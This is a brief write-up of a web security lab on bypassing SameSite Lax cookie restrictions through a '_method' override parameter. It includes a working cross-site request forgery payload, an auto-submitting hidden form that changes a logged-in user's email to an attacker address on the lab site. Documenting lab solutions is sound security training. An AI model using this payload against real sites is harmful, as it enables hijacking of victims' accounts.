


# **SameSite Lax bypass via method override**

This exploit is based on the form for changing the email not having csrf token:



From Burp solution instructions:

> Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. As a result, the browser will use the default `Lax` restriction level.  
>   
> Recognize that this means the session cookie will be sent in cross-site `GET` requests, as long as they involve a top-level navigation.

But using just GET returns:



So, some Frameworks use the \_method para to bypass HTTP methods limitations:

```
<input type="hidden" name="_method" value="POST">
```

And trying to do the same:

```
<form method="GET" action="https://0a44000204ac07e88035858a007c007d.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="_method" value="POST">
    <input type="hidden" name="email" value="evil@hacker.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

Solves the lab

This is kind of a longshot I did not like that from this lab, just some frameworks have this and the ones that have it usually have better csrf management.
